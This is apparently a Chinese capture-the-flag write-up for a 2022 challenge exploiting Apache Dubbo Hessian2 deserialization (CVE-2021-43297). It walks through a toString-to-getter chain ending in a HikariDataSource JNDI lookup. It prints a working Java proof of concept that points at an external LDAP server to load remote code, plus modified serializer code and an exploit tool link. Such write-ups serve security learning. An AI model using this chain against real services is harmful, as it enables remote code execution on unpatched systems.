### 题目浅析

题目内容：this time i use hessian2, hack me

题目给了`/api`接口进行反序列化



在`com.ctf.badbean.bean.MyBean#toString`中可以触发getter方法



也就是说我们需要利用hessian链来触发toString方法，给了dubbo版本为2.7.14，经过搜索有一个[Apache Dubbo Hessian2 异常处理时反序列化（CVE-2021-43297）](https://paper.seebug.org/1814/)可以任意调用toString方法

漏洞点在：`com.alibaba.com.caucho.hessian.io.Hessian2Input#expect`



对象和string拼接就可以触发tostring

### POC构造

```java
import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.ctf.badbean.bean.MyBean;
import java.io.*;
import java.util.Base64;

public class payload {

    public static void main(String[] args) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HikariDataSource ds = new HikariDataSource();
        ds.setDataSourceJNDI("ldap://1.117.171.248:9996/Basic/Command/calc");
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);
        Object o = new MyBean("", "", ds, HikariDataSource.class);
        out.writeString("aaa");
        out.writeObject(o);
        out.flushBuffer();
        System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray()));
        Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream((byteArrayOutputStream.toByteArray())));
        hessian2Input.readObject();
    }

}
```

同时需要重写两个文件

`com.alibaba.com.caucho.hessian.io.Hessian2Output#writeString(java.lang.String)`

这里自定义序列化流程来对 `this._buffer `赋值




` com.zaxxer.hikari.HikariDataSource`

序列化时会报HikariDataSource没有实现Serializable接口的错误，这里我们重写文件，使其继承Serializable接口



当然也可以重写

`com.alibaba.com.caucho.hessian.io.SerializerFactory#getDefaultSerializer`

```java
protected Serializer getDefaultSerializer(Class cl) {
    	this._isAllowNonSerializable = true;
        if (this._defaultSerializer != null) {
            return this._defaultSerializer;
        } else if (!Serializable.class.isAssignableFrom(cl) && !this._isAllowNonSerializable) {
            throw new IllegalStateException("Serialized class " + cl.getName() + " must implement java.io.Serializable");
        } else {
            return new JavaSerializer(cl, this._loader);
        }
    }
```

由于是本机校验，所以直接赋值`this._isAllowNonSerializable = true;`

### 流程解析

进行到expect函数的调用栈

```java
expect:3555, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readString:1883, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObjectDefinition:2824, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2745, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2308, Hessian2Input (com.alibaba.com.caucho.hessian.io)
main:19, payload
```

接下来看一下具体流程：

`com.alibaba.com.caucho.hessian.io.Hessian2Input#readObject()`



跟进

``com.alibaba.com.caucho.hessian.io.Hessian2Input#readObject(List<Class<?>> expectedTypes)`

这里我们拿到tag为67



进入



readObjectDefinition调用readString



此时tag仍然为67，而67会进入default `throw this.expect("string", tag);`中触发tostring。




触发toString之后我们还需要一个getter利用链

`com.zaxxer.hikari.HikariDataSource#getConnection()`



跟进



跟进



最终调用JNDI



完整调用栈：

```java
initializeDataSource:328, PoolBase (com.zaxxer.hikari.pool)
<init>:114, PoolBase (com.zaxxer.hikari.pool)
<init>:105, HikariPool (com.zaxxer.hikari.pool)
getConnection:56, HikariDataSource
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:34, MyBean (com.ctf.badbean.bean)
valueOf:2982, String (java.lang)
append:131, StringBuilder (java.lang)
expect:3566, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readString:1883, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObjectDefinition:2824, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2745, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2308, Hessian2Input (com.alibaba.com.caucho.hessian.io)
main:19, payload
```

### 构造原理

我们重写了文件改变了序列化流程，这里跟进查看一下其作用

首先我们调用`out.writeString("aaa");`



此时offset为0，我们将buffer[0]设置为67，offset变为1，之后进入writeObject



跟进



跟进



这里会直接赋值为 67，由于offset为1，所以 buffer [1] 赋值为 67，接下来进入writeString进行正常流程

### 利用：

项目结构



使用工具起一个LDAP服务器

https://github.com/WhiteHSBG/JNDIExploit



运行payload后弹出计算器




参考：

http://miku233.viewofthai.link/2022/10/09/2022%E7%BD%91%E9%BC%8E%E6%9D%AFJava/

https://y4er.com/posts/wangdingbei-badbean-hessian2/

https://jeva.cc/2855.html

https://xz.aliyun.com/t/11720#toc-7
